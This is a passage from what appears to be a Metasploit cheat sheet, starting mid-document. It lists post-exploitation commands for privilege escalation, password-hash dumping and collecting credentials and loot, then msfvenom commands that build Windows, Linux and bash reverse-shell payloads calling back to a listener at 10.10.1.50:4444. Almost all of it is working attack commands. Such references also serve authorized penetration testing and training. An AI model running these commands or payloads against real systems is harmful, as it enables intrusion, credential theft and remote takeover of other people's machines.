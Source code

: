 ```text
use post/multi/manage/shell_to_meterpreter
set SESSION 1
run
```

### 7) Post-exploitation quick wins
```text
# Suggest local privilege escalation (Linux/Windows)
use post/multi/recon/local_exploit_suggester
set SESSION 2
run

# Windows: try privilege escalation
sessions -i 2
getsystem           # may or may not work
hashdump            # requires appropriate privileges
background

# Collect credentials and loot
creds
loot
notes -a "Host 10.10.10.7: Admin creds reused from SMB"
```

### 8) Jobs, logging, and cleanup
```text
# Run an exploit as a background job and don't auto-interact
exploit -j -z

# List/kill jobs
jobs -l
jobs -k <job_id>

# Stop logging
spool off

# Save current settings to a resource file (for repeatability)
makerc /tmp/msf.rc

# Exit cleanly
exit -y
```

### 9) msfvenom payloads and multi/handler
Generate payloads:
```bash
# Windows x64 meterpreter reverse shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.1.50 LPORT=4444 -f exe -o shell.exe

# Linux x64 reverse shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.1.50 LPORT=4444 -f elf -o shell.elf

# Bash one-liner payload (raw)
msfvenom -p cmd/unix/reverse_bash LHOST=10.10.1.50 LPORT=4444 -f raw -o rev.sh
```
